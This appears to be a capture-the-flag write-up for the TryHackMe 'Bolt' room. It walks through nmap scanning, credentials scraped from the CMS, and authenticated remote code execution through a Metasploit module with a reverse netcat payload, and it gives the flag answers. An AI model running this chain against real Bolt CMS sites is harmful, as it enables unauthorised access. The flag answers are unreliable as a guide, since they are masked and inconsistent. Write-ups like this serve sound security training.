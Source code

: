 # Bolt

A hero is unleashed

[Bolt](https://tryhackme.com/room/bolt)

## Chủ đề của

- Network Enumeration
- Web Enumeration
- Web Poking
- Security Misconfiguration
- Using Metasploit
- Exploitation Bolt CMS 3.7.0

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Deploy the machine

This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution. You should wait for at least 3-4 minutes for the machine to start properly.

If you have any queries or feedback you can reach me through the TryHackMe [Discord server](https://discord.gg/F7ERYzz) or through [Twitter](https://twitter.com/0x9747/).

1. Start the machine

`No answer needed`

## Hack your way into the machine!

**A hero is unleashed**

Once you have successfully deployed the VM , enumerate it before finding the flag in the machine.

1. What port number has a web server with a CMS running?

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 16:06 CEST
Nmap scan report for 10.10.174.31
Host is up (0.041s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 Not Found
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 53e7a3
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest:
|     HTTP/1.0 200 OK
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 373a0e
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=9/29%Time=5F733F6C%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,29E1,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Tue,\x2029\x20Sep\x20
SF:2020\x2014:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP
SF:/7\.2\.32-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20pu
SF:blic,\x20s-maxage=600\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Debug-Toke
SF:n:\x20373a0e\r\n\r\n<!doctype\x20html>\n<html\x20lang=\"en-GB\">\n\x20\
SF:x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"u
SF:tf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20
SF:content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<title>Bolt\x20\|\x20A
SF:\x20hero\x20is\x20unleashed</title>\n\x20\x20\x20\x20\x20\x20\x20\x20<l
SF:ink\x20href=\"https://fonts\.googleapis\.com/css\?family=Bitter\|Roboto
SF::400,400i,700\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/bulma\.css\
SF:?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"/theme/base-2018/css/theme\.css\?6cb66bfe9f\">\n\x20\x20
SF:\x20\x20\t<meta\x20name=\"generator\"\x20content=\"Bolt\">\n\x20\x20\x2
SF:0\x20\t<link\x20rel=\"canonical\"\x20href=\"http://0\.0\.0\.0:8000/\">\
SF:n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body\x20class=\"front\">\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20")%r(FourOhFourRequest,16C3,"HTTP/1
SF:\.0\x20404\x20Not\x20Found\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:
SF:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/7\.2\.32-1
SF:\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20private,\x20m
SF:ust-revalidate\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\npragma:\x20no-cache
SF:\r\nexpires:\x20-1\r\nX-Debug-Token:\x2053e7a3\r\n\r\n<!doctype\x20html
SF:>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial
SF:-scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleapis\
SF:.com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\">\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/
SF:theme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/them
SF:e\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"\x2
SF:0content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=\"v
SF:is");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.29 seconds
```

`8000`

2. What is the username we can find in the CMS?

[http://10.10.174.31:8000/entry/message-from-admin](http://10.10.174.31:8000/entry/message-from-admin)

![](2020-09-29_16-20.png)

`Bolt`

1. What is the password we can find for the username?

[http://10.10.174.31:8000/entry/message-for-it-department](http://10.10.174.31:8000/entry/message-for-it-department)

![](2020-09-29_16-10.png)

`boltadmin123`

4. What version of the CMS is installed on the server? (Ex: Name 1.1.1)

[http://10.10.174.31:8000/bolt/login](http://10.10.174.31:8000/bolt/login)

![](2020-09-29_16-26.png)

`Bolt 3.7.1`

5. There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

[https://www.exploit-db.com/exploits/48296](https://www.exploit-db.com/exploits/48296)

`48296`

6. Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....) Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `apt update` then `apt install metasploit-framework`

```
sudo msfconsole
msf5 > use unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf5 exploit(unix/webapp/bolt_authenticated_rce) >
```

`exploit/unix/webapp/bolt_authenticated_rce`

7. Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

`No answer needed`

2. Look for flag.txt inside the machine.

```
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{V0N318*****wh0_d035nt_l0ve5_b0l7_r1gh7?}
```

`THM{V0N318*****wh0_d035nt_l0ve5_b0l7_r1gh7?12**123:))}`
